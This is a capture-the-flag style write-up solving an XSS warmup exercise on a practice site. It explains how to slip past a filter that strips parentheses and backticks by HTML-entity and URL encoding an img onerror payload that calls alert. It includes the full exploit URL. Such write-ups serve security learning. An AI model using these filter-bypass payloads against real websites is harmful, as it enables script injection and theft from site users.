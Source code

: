 # Ah That's Hawt - Exercise 4

[Problem](https://xss.pwnfunction.com/warmups/thats-hawt/)

[Solution](https://sandbox.pwnfunction.com/warmups/thats-hawt.html?markassbrownlee=%3Cimg%20src=%22idk.png%22%20onerror=%22alert%26%2340%3B1337%26%2341%3B%22%3E)

## Explanation

Here is the part to inject JS

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```

Here, you have access to the variable smith, which later becomes the content inside the h2 *will*. Notice that the characters `\`, `(`, `)`, `\`` are replaced by empty string in smith. We can still **HTML escape** Encode such characters, which will give the same result.

Tag we wanna inject - `<img src="idk.png" onerror="alert(1377)">`

After HTML escape encoding - `<img src="idk.png" onerror="alert&#40;1337&#41;">`

We still have special characters like `#` and `&`. We can HTML URL Encode them (not escape encoding).

Final product - `<img src="idk.png" onerror="alert%26%2340%3B1337%26%2341%3B">`

Set this as the value of the parameter *markassbrownlee* which will assign it to the variable smith. It will trigger the alert function as the image tag throws an error. Neat

### This Might Help

- [Check for regex match](https://regex101.com/)
- [HTML Escape Encoding](https://mateam.net/html-escape-characters/)
- [HTML URL Encoding](https://www.urlencoder.org/)
